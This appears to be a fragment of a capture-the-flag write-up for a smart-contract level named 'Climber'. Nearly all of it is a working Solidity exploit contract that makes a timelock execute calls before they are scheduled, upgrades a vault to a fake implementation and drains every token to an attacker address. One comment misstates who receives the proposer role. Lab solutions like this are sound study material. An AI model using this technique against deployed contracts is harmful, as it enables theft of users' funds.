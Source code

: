 ```solidity
// Exploit contract
contract ClimberExploiter {
    ClimberTimelock private _timelock;

    address[] private _targets = new address[](4);
    uint256[] private _values = [0, 0, 0, 0];
    bytes[] private _dataElements = new bytes[](4);

    constructor (address timelock, address vault, address token, address recovery) {
        _timelock = ClimberTimelock(payable(timelock));

        // proposal_1: Upgrade vault then withdraw all the funds immediately
        _targets[0] = vault;
        _dataElements[0] = abi.encodeWithSignature(
            "upgradeToAndCall(address,bytes)",
            address(new FakeVault()),
            abi.encodeWithSignature("emergencyWithdraw(address,address)", token, recovery)
        );

        // proposal_2: Set Update Delay to 0
        _targets[1] = timelock;
        _dataElements[1] = abi.encodeWithSelector(ClimberTimelock.updateDelay.selector, 0);

        // proposal_3: Grant proposer role to timelock
        _targets[2] = timelock;
        _dataElements[2] = abi.encodeWithSignature(
            "grantRole(bytes32,address)",
            PROPOSER_ROLE,
            address(this)
        );

        // proposal_4: Call schedule() on timelock
        _targets[3] = address(this);
        _dataElements[3] = abi.encodeWithSignature(
            "timelockSchedule()"
        );
    }

    function exploit() external {
        _timelock.execute(_targets, _values, _dataElements, keccak256("123"));
    }

    function timelockSchedule() external {
        _timelock.schedule(_targets, _values, _dataElements, keccak256("123"));
    }
}

// Upgrade vault
contract FakeVault is ClimberVault {

    constructor() {
        _disableInitializers();
    }

    function emergencyWithdraw(address token, address recipient) external onlyOwner {
        IERC20(token).transfer(recipient, IERC20(token).balanceOf(address(this)));
    }
    
}
```
Thought: 
- Anything strange at first glance may be a vulnerability
